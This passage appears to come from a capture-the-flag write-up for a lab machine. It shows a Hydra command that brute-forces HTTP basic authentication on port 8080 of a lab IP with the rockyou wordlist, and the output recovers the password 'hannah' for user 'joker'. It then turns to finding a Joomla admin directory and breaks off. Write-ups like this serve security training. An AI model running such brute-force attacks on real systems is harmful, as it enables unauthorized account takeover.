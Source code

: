 Answer: `8080`

# #8 - At this point we have one user and a url that needs to be aunthenticated, brute force it to get the password, what is that password?

*Hint: Maybe burp with format user:pass and encode with base64? Note: Don't forget decode it!!*

Let's brute force `joker`'s password with Hydra:

~~~
$ hydra -l joker -P /data/src/wordlists/rockyou.txt -s 8080 10.10.130.207 http-get
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-06-23 09:07:05
[WARNING] You must supply the web page as an additional option or via -m, default path set to /
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344398 login tries (l:1/p:14344398), ~896525 tries per task
[DATA] attacking http-get://10.10.130.207:8080/
[8080][http-get] host: 10.10.130.207   login: joker   password: hannah
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-06-23 09:07:32
~~~

Answer: `hannah`

# #9 - Yeah!! We got the user and password and we see a cms based blog. Now check for directories and files in this port. What directory looks like as admin directory?

*Hint: Nikto with the credentials we obtained?*

The application hosted on port `8080` seems to be a Joomla CMS:
